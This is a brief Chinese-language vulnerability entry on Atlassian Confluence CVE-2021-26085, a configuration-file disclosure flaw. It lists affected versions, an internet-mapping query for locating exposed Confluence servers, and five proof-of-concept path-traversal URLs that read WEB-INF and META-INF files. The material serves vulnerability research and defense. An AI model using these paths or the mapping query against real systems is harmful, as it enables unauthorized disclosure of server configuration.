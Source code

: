# Atlassian Confluence 敏感信息泄露 CVE-2021-26085

## 漏洞描述

Confluence 是一个专业的企业知识管理与协同软件，也可以用于构建企业 wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。该漏洞不是任意文件读取，只能读取一些 confluence 的配置文件，影响有限。

参考链接：

- https://jira.atlassian.com/browse/CONFSERVER-67893

## 漏洞影响

```
version < 7.4.10
7.5.0 ≤ version < 7.12.3
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

poc：

```
/s/123cfx/_/;/WEB-INF/web.xml
/s/123cfx/_/;/WEB-INF/decorators.xml
/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.xml
```

